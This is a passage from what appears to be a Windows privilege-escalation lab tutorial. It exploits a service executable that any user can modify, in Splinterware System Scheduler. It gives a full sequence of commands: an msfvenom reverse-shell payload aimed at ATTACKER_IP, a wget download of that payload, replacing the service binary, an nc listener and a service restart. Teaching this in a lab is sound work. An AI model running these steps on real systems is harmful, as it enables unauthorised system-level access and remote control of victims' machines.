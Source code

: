 To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

`C:\> sc qc apphostsvc`

### Insecure Permissions on Service Executable
If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:
`C:\> sc qc WindowsScheduler`

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

`icacls C:\PROGRA~2\SYSTEM~1\WService.exe`

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`

`python3 -m http.server`

We can then pull the payload from Powershell with the following command:
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
```
C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp 
       1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
       1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
       Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:
`user@attackerpc$ nc -lvp 4445`

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
`C:\> sc stop windowsscheduler`
`C:\> sc start windowsscheduler`

**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.
